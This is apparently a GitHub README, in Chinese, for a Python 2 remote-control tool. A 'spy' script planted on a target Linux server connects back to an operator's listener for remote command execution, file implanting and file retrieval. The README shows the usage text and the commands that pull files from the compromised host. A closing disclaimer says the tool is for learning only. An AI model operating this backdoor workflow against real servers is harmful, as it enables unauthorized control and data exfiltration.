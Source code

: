# Remote Control For Linux Server

## 1. 功能

- 远程命令

- 文件植入

- 文件获取

## 2. 使用

### 2.1. 前提

**大前提**：假设间谍脚本`spy.py`已经植入目标服务器，即已经在远端执行了`python2 spy.py -h <host> -p <port>`

下列所有图片中，左侧代表“指挥部”，右侧代表远端的“间谍”。

### 2.2. 查看帮助

```
$ python2 ins.py
Usage:      python2 ins.py [Flags] [Options]
    Flags:  
                -c --cmdinput   If input command lines, default is no.
    Options:    
                -h --host       IPV4 for binding, default is 127.0.0.1.
                -p --port       Port for binding, default is 8080.
                -l --lisnum     Number of listening, default is 1.
                -s --size       Size of data for one TCP connection, default is 4096 * 10.
                -u --updest     The destiantion of file to upload.
                -d --downdest   The destination of file to download.
    Examples:
                python2 ins.py -h 122.233.78.211 -p 8090 -l 5 -c
                python2 ins.py -h 127.0.0.1 -u E:/imgs/1024.png
                python2 ins.py -p 8070 -d /home/user/imgs/512.jpg
```

### 2.3. 远程命令

“指挥部”执行如下指令：

```shell
$ python2 ins.py -h <host> -p <port> -l <listen-num> -c
```

![](./img/send_cmd.png)

### 2.4. 文件获取/植入

“指挥部”用两个终端开放两个端口，分别用于远程命令与文件操作，以文件获取为例（如下图左侧的上、下两部分）。

如下图左上部分所示，“指挥部”与“间谍”成功建立会话后，可确定间谍脚本的位置。之后发送如下命令，使“间谍”与“指挥部”建立一个新的会话用于文件传输。

```shell
$ python2 <spy-dir> -h <host> -p <new-port> -u <up-file-dir>
```

如下图左下部分所示，“指挥部”开放新端口，等待“间谍”与之建立会话后进行文件传输。

```shell
$ python2 ins.py -h <host> -p <new-port> -d <down-file-dir>
```

![](./img/send_file_edited.png)

文件植入同理。

## 3. 声明

本程序仅供网络安全与socket编程相关的学习交流使用，不得用于一切不正当用途。
未经授权擅自使用，后果自负。
